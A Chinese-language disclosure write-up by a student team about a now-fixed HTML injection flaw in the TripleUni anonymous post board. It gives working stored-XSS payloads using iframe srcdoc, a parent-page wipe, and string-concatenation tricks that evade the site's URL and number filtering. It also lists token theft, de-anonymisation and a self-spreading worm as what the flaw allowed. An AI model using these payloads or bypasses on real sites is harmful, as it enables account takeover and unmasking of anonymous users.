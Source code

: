 **相信大家都注意到噗噗可以发html的内容了，鉴于该漏洞已经修复，并且噗噗终于支持markdown了，我们决定公开部分技术细节，供各位学习参考。**

## 起因

11 月 1 日晚，我们突发其想想测试一下噗噗对 markdown 的支持，于是从[该网站](https://markdown-it.github.io/)复制了一份 templet 发到树洞#357840，后来惊奇的发现，于如下行语句及之后的所有内容都被高亮了黄色：

```markdown
[\<mark>](https://github.com/markdown-it/markdown-it-mark)
```

通过对比树洞内容：

```markdown
[\](https://github.com/markdown-it/markdown-it-mark)
```

可以发现`<mark>`不见了。

经过提醒，`<mark>`于 html 下也能实现相同的效果，至此，我们粗略判断噗噗支持 html 语法。

在经过多次实验后，我们验证了这个猜测，此外，我们还发现噗噗可以用 css 渲染。

在发现了这个漏洞之后，我们分成两路，一路尝试在树洞内注入 script 脚本，另一路尝试在树洞内嵌套网页实现更多元化的展示效果。

## <\script> 脚本注入

因为脚本注入非常的危险，所以出于对于安全的考量，我们进行了脚本注入的测试。我们首先尝试了最简单的弹窗：

```html
<script>
  alert("hello world");
</script>
```

但是，我们发现并没有弹窗出现，于是我们尝试了其它脚本：

```html
<script>
  var a = document.createElement("a");
  a.href = "https://www.bing.com";
  a.innerHTML = "bing";
  document.body.appendChild(a);
</script>
```

但是，我们发现并没有出现超链接。

就此，我们认为噗噗对于脚本注入进行了限制，停止了脚本注入的测试。

## <\iframe>嵌入

### 嵌入网页

我们尝试了最简单的嵌入网页：

```html
<iframe src="https://www.bing.com/"></iframe>
```

发现成功插入了 iframe，但是 iframe 中竟然提示树洞不存在。

这个问题困扰了我们很久，最后发现是因为噗噗对于网址的处理导致的。

### 网址文本替换

噗噗会对网址添加超链接, 如`https://www.bing.com/`会被替换为:

```html
<a href="https://www.bing.com/" target="_blank">https://www.bing.com/</a>
```

这会导致嵌入网页时出现问题, 例如:

```html
<iframe src="https://www.bing.com/"> </iframe>
```

会被替换为:

```html
<iframe
    src="<a href="https://www.bing.com/"
    target="_blank">https://www.bing.com/</a>">
</iframe>
```

渲染的时候便不能将`src`内的内容识别为外部网址，于是会自动在前面加上`https://tripleuni.com/`，也就是最终该iframe会访问：`https://tripleuni.com/https://www.bing.com/`就有了刚才“树洞不存在”的问题。

从而导致页面无法正常渲染。

这个问题会出现在任何需要网址的地方。

### 解决方案

我们尝试了多种方法，最后通过查阅[mdn docs](https://developer.mozilla.org/zh-CN/docs/Web/HTML/Element/iframe#srcdoc)发现可以通过`srcdoc`属性来解决这个问题。

## srcdoc属性

`srcdoc`属性被认为是`iframe`标签中[最没用](https://www.jianshu.com/p/8f7a6a873457)的属性，但是这个属性让我们有机会直接嵌入 html 代码以及 script 脚本。

### 嵌入 html 代码

```html
<iframe srcdoc="<h1>hello world</h1>"></iframe>
```

可以正常渲染出`hello world`。

### 嵌入 script 脚本

```html
<iframe
  srcdoc="
    <script>
        alert('hello world')
    </script>
"
></iframe>
```

可以正常弹出`hello world`。

### 同域访问

因为`iframe`的`srcdoc`属性可以直接嵌入 html 代码，所以我们可以通过`iframe`来访问同域（噗噗）的资源。

```html
<iframe
  srcdoc="
    <script>
        parent.document.body.innerHTML = ''
    </script>
"
></iframe>
```

以上代码可以清空网页所有内容。


### 解决网址问题

在有了脚本注入的能力之后，我们可以通过脚本来解决网址的问题:

```html
<iframe
  srcdoc="
    <script>
        let iframe = document.createElement('iframe')
        iframe.src = 'htt'+'ps://www.bing.com'
        iframe.style.width = '100%'
        iframe.style.height = '1000'
        parent.document.body.appendChild(iframe)
    </script>
"
></iframe>
```
当噗噗检测到字符串内包含`http`便会将该字符串判断为网页链接，并进行reformat，通过字符串拼接，我们可以避开噗噗的网址检测，成功嵌入了网页。

至此，我们成功的实现了对于噗噗的脚本注入，可以在噗噗上为所欲为（doge）。


## 放飞自我
接下来，我们在噗噗进行了一些有趣的实验。例如：

* 通过iframe注入脚本，在其它用户打开树洞时，可以实现对TripleUni的任意操作，包括但不限于：
  * 获取用户信息
  * 获取树洞信息
  * 获取token
  * 关注树洞
  * 评论树洞
  * 发帖
  * 自我复制
  * 重定向
  * 。。。
* 通过获取用户信息+跨域访问第三方服务器or实名发布树洞，可以实现**去匿名化**。
* 通过自我复制+发布树洞，甚至可以实现一个小型的**蠕虫**程序，对TripleUni进行攻击。
* **事实证明防止html注入真的很重要（doge）**

 **🧐想要了解更多？欢迎参考我们的[GitHub仓库](https://github.com/EZ-HKU/UniScript)。**

## 细枝末节

### 长数字替换

在测试 follow 功能的时候，我们发现该脚本无法正常执行，通过检查元素后发现，在源代码中执行的 js 脚本：

```javascript
follow(123456);
```

在发布后会被替换成：

```javascript
follow(
  <span>
    {" "}
    <a href="javascript:void(0);" onclick="nav2Post('123456', 'HKU')">
      123456
    </a>{" "}
  </span>
);
```

其中`123456`是我们需要 follow 的树洞 ID。

在经过多次测试之后，我们发现当噗噗检测到由 6 位数字组成的字符串的时候，就会自动替换会跳转到相对应树洞的 js 脚本。

不过庆幸的是 js 脚本支持字符串拼接，我们只需要将`123456` 替换成`'123'+'456'`即可。

### EZ-TEAM 倾情呈现
#### I see You, 我看见你